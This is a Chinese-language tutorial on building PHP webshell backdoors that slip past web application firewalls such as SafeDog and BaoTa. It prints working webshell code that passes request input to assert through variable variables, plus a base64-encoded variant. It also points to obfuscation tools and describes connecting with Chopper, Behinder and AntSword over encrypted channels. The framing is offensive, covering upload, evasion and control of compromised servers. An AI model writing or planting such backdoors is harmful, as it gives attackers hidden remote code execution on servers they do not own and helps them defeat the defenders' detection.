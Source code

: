 <a name="PSzGX"></a>
## 一、思维导图
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482986160-fd4548ac-ec87-4186-bdc0-01e1939f8f87.png#clientId=uc654d338-5b4c-4&from=paste&id=u94ff3caf&originHeight=612&originWidth=741&originalType=url&ratio=1&status=done&style=none&taskId=u5e4a5303-efad-4997-a536-402c6329a5c)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516164926.png)
<a name="XfjC0"></a>
## 二、后门原理
<a name="AsTRT"></a>
### 1、变量覆盖--后门绕过安全狗：
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482986048-2fee1469-4dc4-4bf8-ad61-5b17a7d62868.png#clientId=uc654d338-5b4c-4&from=paste&id=ud6b7264e&originHeight=522&originWidth=1180&originalType=url&ratio=1&status=done&style=none&taskId=uff73df57-9e70-47cf-a47f-5dc9754de7c)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516220134.png)<br />相当于<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482986148-7148c135-efe5-4ba9-9fe9-27c3d2897fae.png#clientId=uc654d338-5b4c-4&from=paste&id=ud9b75df1&originHeight=278&originWidth=830&originalType=url&ratio=1&status=done&style=none&taskId=ufb847ca4-ee38-49fe-95c7-b7d5fc14f24)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516220202.png)
```bash
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b($_POST['z']);

//?x=b&y=assert
//$a $$a=assert=$b
//assert($_POST['chopper'])

?>
```
这里解释$$是什么东西<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483425929-20d1b7b4-0045-4c9c-b4cb-bc10959f0af1.png#clientId=uc654d338-5b4c-4&from=paste&height=390&id=ueeeddac4&originHeight=780&originWidth=982&originalType=binary&ratio=1&size=121262&status=done&style=none&taskId=u6fbf6289-10a9-4e85-8f0c-32159416471&width=491)<br />也就说：使用$var储存了一个String类型的值“PHP”，然后使用引用变量$$var储存一个String类型的值“PHP中文网”。<br />测试：<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483956816-74fb17c7-17d7-4320-a300-2d7edb1dfd09.png#clientId=uc654d338-5b4c-4&from=paste&height=347&id=uc847a544&originHeight=694&originWidth=1920&originalType=binary&ratio=1&size=126133&status=done&style=none&taskId=u62c4d347-5b13-439a-b417-8a5a3f0ffb1&width=960)

<a name="pQe2M"></a>
### 2、加密传输
采取上面的方式很可能会被宝塔给拦截<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482986130-f0383773-013a-4cba-a752-814a24f37a56.png#clientId=uc654d338-5b4c-4&from=paste&id=u8121e7c4&originHeight=382&originWidth=562&originalType=url&ratio=1&status=done&style=none&taskId=ud7a45854-cb93-4226-9d12-f638db5e6e7)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516225822.png)<br />编码绕过，在一些常见的waf例如宝塔对传入的参数会进行判断如果是包含类似`phpinfo()`这样的风险代码会被拦截，这个时候我们可以采用对代码进行编码的方式进行参数。
```bash
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b(base64_decode($_POST['z']));

//?x=b&y=assert
//$a $$a=assert=$b
//assert($_POST['chopper'])

?>
```
对`PHPinfo();`进行编码为`cGhwaW5mbygpOw==`<br />还可以采取加密传输：<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482997955-e0e51861-d682-4180-928e-5bc97b0c3ca6.png#clientId=uc654d338-5b4c-4&from=paste&id=u4820f5b5&originHeight=165&originWidth=510&originalType=url&ratio=1&status=done&style=none&taskId=u17230998-b616-41ea-bf40-10782eb4233)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516225321.png)<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482998120-9c6e041f-6d71-47fc-8f06-85918c46b779.png#clientId=uc654d338-5b4c-4&from=paste&id=u410927e7&originHeight=227&originWidth=583&originalType=url&ratio=1&status=done&style=none&taskId=uaf3fdb27-94a8-4852-a756-227204a685e)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516225502.png)<br />稳得一批：<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630485987527-7f65e219-d172-4bb4-a3d1-129f9cac85fd.png#clientId=uc654d338-5b4c-4&from=paste&height=357&id=eWc2K&originHeight=713&originWidth=1919&originalType=binary&ratio=1&size=128747&status=done&style=none&taskId=u1925c60c-85d7-4155-9e39-551496c975a&width=959.5)
<a name="YFNoG"></a>
### 3、加密混淆
下载地址：<br />https://github.com/djunny/enphp <br />目标加密的代码，不要将code_test的文件移到或者删除很有可能会导致使用失败。<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482998232-808fbbe2-7fe1-40a9-a19d-9dd80b099d98.png#clientId=uc654d338-5b4c-4&from=paste&id=ua2abf7d5&originHeight=71&originWidth=714&originalType=url&ratio=1&status=done&style=none&taskId=u9aba74e6-8294-4d81-83b8-f1550a486f8)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516230015.png)<br />通过混淆的脚本<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482998232-d8caf0c9-9c3d-47ef-8a5f-5cf1b0419279.png#clientId=uc654d338-5b4c-4&from=paste&id=u4213ef95&originHeight=601&originWidth=1060&originalType=url&ratio=1&status=done&style=none&taskId=ud186e80f-5356-4e2c-b66d-62f14680505)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516230145.png)<br />混淆完之后：<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482999464-17319a62-3318-4e1d-92cd-3803b80a084b.png#clientId=uc654d338-5b4c-4&from=paste&id=ub6439715&originHeight=173&originWidth=804&originalType=url&ratio=1&status=done&style=none&taskId=ub4ee7053-7194-4f77-9c93-80488d47311)](https://gitee.com/darkerg/article-images/raw/master/typora/20210516231312.png)<br />上传上去之后：<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482998886-f8f32730-bd22-4337-8441-57f890200b43.png#clientId=uc654d338-5b4c-4&from=paste&id=ub8ce3119&originHeight=273&originWidth=761&originalType=url&ratio=1&status=done&style=none&taskId=uf587efb0-f0e7-4ef3-9719-d8f4f09cb7a)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517195727.png)<br />很稳。
<a name="ChK7u"></a>
### 4、借用在线API接口实现加密混淆
如果上面的方式被安全狗杀掉，或者过不了宝塔的话。<br />网址：<br />http://phpjiami.com/phpjiami.html <br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482998908-2f8c3246-72c6-4244-b0a4-c1dc9461cd20.png#clientId=uc654d338-5b4c-4&from=paste&id=u50f93b43&originHeight=504&originWidth=1365&originalType=url&ratio=1&status=done&style=none&taskId=u110322cb-8f93-468a-9788-add89f47d26)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517195931.png)
<a name="M0i2h"></a>
### 5、异或加密Webshell-venom
[https://github.com/yzddmr6/as_webshell_venom](https://github.com/yzddmr6/as_webshell_venom)<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482999035-43da0dd4-cccd-4f82-9fea-39de854ef01a.png#clientId=uc654d338-5b4c-4&from=paste&id=uc5bbb5a5&originHeight=256&originWidth=740&originalType=url&ratio=1&status=done&style=none&taskId=ud1e1b6b7-9e4a-461f-8207-e98c2dabce4)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517200834.png)<br />运行里面的脚本，然后就出来了，随机的。复制好上传就行。<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482999483-8d88bda5-81c7-45fb-9cdc-5ab851a82ef2.png#clientId=uc654d338-5b4c-4&from=paste&id=u77aa3a84&originHeight=251&originWidth=628&originalType=url&ratio=1&status=done&style=none&taskId=u5a1d5058-0b36-47d7-b2dd-d2c089c9aa7)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517200859.png)<br />但是要看一下有没有GET提交id，这个就自己随便构造吧。还支持base64加密提交来绕过。<br />在用蚁剑连接的时候，可以选择扩展选项来进行连接。<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482999684-431b86af-ffc2-4ee5-b9d0-d68ad52333a0.png#clientId=uc654d338-5b4c-4&from=paste&id=u790286e5&originHeight=503&originWidth=747&originalType=url&ratio=1&status=done&style=none&taskId=uc68eb09a-7e5a-4efe-b29e-22645c9f0b6)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517201514.png)
<a name="LGEDr"></a>
### 6、webshell管理工具优缺点
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630482999823-0fa8c51d-ed25-4cfd-aaec-c79f891c7824.png#clientId=uc654d338-5b4c-4&from=paste&id=ue75bd264&originHeight=196&originWidth=516&originalType=url&ratio=1&status=done&style=none&taskId=uca65df55-61e2-4757-ac27-94afacbdc19)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517201735.png)<br />单双向加密传输的区别：<br />双向加密传输就是发包之前已经加密了，并且从服务器传回来的数据也是加密的，这样在安全狗这些WAF检测内容的时候就狠nice。
<a name="y0DmL"></a>
#### ①菜刀单向加密举例：
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483000078-53c99173-eb61-492c-ad57-2249f5bd6af0.png#clientId=uc654d338-5b4c-4&from=paste&id=u58f737bd&originHeight=397&originWidth=767&originalType=url&ratio=1&status=done&style=none&taskId=u105d8124-f14a-4860-b925-6de92975233)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517202325.png)<br />抓包分析菜刀执行操作时候的数据包，然后模拟提交，返回了目录列表。
<a name="IQS8h"></a>
#### ②冰蝎示例：
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483000463-f9eb124f-702b-4a44-9d8e-66661f651717.png#clientId=uc654d338-5b4c-4&from=paste&id=u5fbd969a&originHeight=646&originWidth=991&originalType=url&ratio=1&status=done&style=none&taskId=u2736e867-9fb3-4bb0-ad99-fc15cb64fc4)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517203155.png)<br />双向加密。
<a name="SceEr"></a>
## 三、自己造轮子
<a name="liNdF"></a>
### 1、在冰蝎连接之后，查看目录发现获取不了。
抓包分析了一波，找到了冰蝎获取目录所用到的一些函数。
<a name="l1vVE"></a>
### 2、自己写获取目录
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483000326-90dd0405-fbb2-4260-9c28-0b5602eed0f9.png#clientId=uc654d338-5b4c-4&from=paste&id=u34e5ccb8&originHeight=342&originWidth=551&originalType=url&ratio=1&status=done&style=none&taskId=u4469124d-b2a2-47ac-891a-f94451649cc)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517204033.png)<br />获取当前目录。结果：<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483000422-309a868f-b2d1-43ce-8165-e59087baa58b.png#clientId=uc654d338-5b4c-4&from=paste&id=u33d77e7a&originHeight=541&originWidth=561&originalType=url&ratio=1&status=done&style=none&taskId=u71f7e302-59a6-4367-a5c4-6cbda609348)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517204049.png)
<a name="pLkou"></a>
### 3、写入文件
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483000541-c98e05cb-757d-4115-b5e5-fd096367bc71.png#clientId=uc654d338-5b4c-4&from=paste&id=uc5ec1ecc&originHeight=340&originWidth=536&originalType=url&ratio=1&status=done&style=none&taskId=u03ee077f-c5dd-4f36-a7fe-0a5b5784bf5)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517204256.png)
<a name="K9bdb"></a>
### 4、自己写脚本模拟工具
[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630483001130-533d417d-538c-4c68-9233-0639d37c7056.png#clientId=uc654d338-5b4c-4&from=paste&id=u779b3ee9&originHeight=490&originWidth=650&originalType=url&ratio=1&status=done&style=none&taskId=ua2e5efd8-4245-4177-b767-10f0a78e04d)](https://gitee.com/darkerg/article-images/raw/master/typora/20210517205018.png)
